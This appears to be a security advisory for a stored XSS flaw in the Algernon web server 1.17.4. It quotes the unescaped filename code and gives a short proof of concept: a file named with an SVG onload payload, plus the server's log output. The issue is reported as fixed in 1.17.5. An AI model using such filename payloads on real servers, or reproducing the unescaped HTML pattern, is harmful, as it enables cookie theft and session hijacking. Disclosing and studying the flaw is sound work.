


# CVE-2025-65754 : Stored XSS in Algernon 1.17.4

## Description 
Algernon v1.17.4 is affected by a Cross-Site Scripting (XSS) vulnerability that allows attackers to execute arbitrary code via a crafted payload into a filename.

- Affected Project : Algernon - 1.17.4
- Creator : Alexander F. Rødseth (xyproto)
- Vulnerability Type : Cross-Site Scripting (XSS)
- Attack Vector : An attacker could upload files with malicious names to change a website's content or steal cookies to hijack sessions.

Some variables were not sanitized.
For example :

``engine/dirhandler.go`` lines 80-108
```

filename := item.Name()  // Get filename from filesystem
// ...
buf.WriteString(themes.HTMLLink(filename, URLpath, ac.fs.IsDir(fullFilename)))
```

``themes/html.go`` lines 124-132
```
func HTMLLink(text, url string, isDirectory bool) string {
    if isDirectory {
        text += "/"
        url += "/"
    }
    return "<a href=\"/" + url + "\">" + text + "</a><br>"
    // 'text' (filename) is inserted directly without HTML escaping
}
```
Filenames from the filesystem are inserted directly into HTML without escaping in directory listings.

# PoC

```
$ algernon -v                                  
Algernon 1.17.4
```

In a directory, create files with xss payloads as names. 
```
# XSS Payload 1: Simple alert
$touch "test.txt"

# XSS Payload 2: Event handler in filename
$touch "document<svg onload=alert(document.domain)>.svg"

```
In the same repository, run the application.
```bash
algernon
```

```
Server directory:       .
Server address:         :3000
Database:               Bolt (/tmp/algernon.db)
Cache mode:             On
Cache size:             1048576 bytes
TLS certificate:        cert.pem
TLS key:                key.pem
Request limit:          10/sec per visitor
Large file threshold:   44040192 bytes
Large file timeout:     10 sec
INFO[0000] Serving HTTP/2 on https://localhost:3000/    
ERRO[0000] open cert.pem: no such file or directory. Not serving HTTP/2. 
INFO[0000] Use the -t flag for serving regular HTTP.    
INFO[0000] Serving HTTP on http://localhost:3000/      
```

Visit the following url, an alert will appear.







This issue has now been patched in v1.17.5.

## References
- https://algernon.roboticoverlords.org/
- https://github.com/xyproto/algernon/releases/tag/v1.17.5
- https://github.com/xyproto/algernon/commit/cd8832014a624a9aeab60566434c3344135e23f8


Discoverer : Benoit H. (Bnyt7)